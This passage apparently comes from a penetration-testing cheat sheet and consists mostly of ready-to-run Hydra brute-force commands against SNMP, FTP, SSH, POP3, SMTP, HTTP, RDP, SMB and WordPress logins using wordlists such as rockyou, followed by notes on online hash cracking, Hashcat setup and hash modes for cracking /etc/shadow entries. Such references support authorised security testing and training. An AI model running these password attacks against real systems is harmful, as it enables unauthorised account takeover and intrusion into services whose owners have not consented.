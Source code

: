         *   Hydra brute force against SNMP

            `hydra -P password-file.txt -v $ip snmp`

        *   Hydra FTP known user and rockyou password list

            `hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp`

        *   Hydra SSH using list of users and passwords

            `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

        *   Hydra SSH using a known password and a username list

            `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`

        *   Hydra SSH Against Known username on port 22

            `hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt`

        *   Hydra POP3 Brute Force

            `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`

        *   Hydra SMTP Brute Force

            `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`

        *   Hydra attack http get 401 login with a dictionary

            `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`

        *   Hydra attack Windows Remote Desktop with rockyou

            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`

        *   Hydra brute force SMB user with rockyou:

            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb`

        *   Hydra brute force a Wordpress admin login

            `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`

*   ## [](#password-hash-attacks)Password Hash Attacks

    *   Online Password Cracking  
        [_https://crackstation.net/_](http://web.archive.org/web/20171113221652/https://crackstation.net/) [_http://finder.insidepro.com/_](http://web.archive.org/web/20171113221652/http://finder.insidepro.com/)

    *   Hashcat Needed to install new drivers to get my GPU Cracking to work on the Kali linux VM and I also had to use the --force parameter.

    `apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev`

    and

    `apt-get install pocl-opencl-icd`

    Cracking Linux Hashes - /etc/shadow file

         500 | md5crypt $1$, MD5(Unix)                          | Operating-Systems
        3200 | bcrypt $2*$, Blowfish(Unix)                      | Operating-Systems
        7400 | sha256crypt $5$, SHA256(Unix)                    | Operating-Systems
        1800 | sha512crypt $6$, SHA512(Unix)                    | Operating-Systems

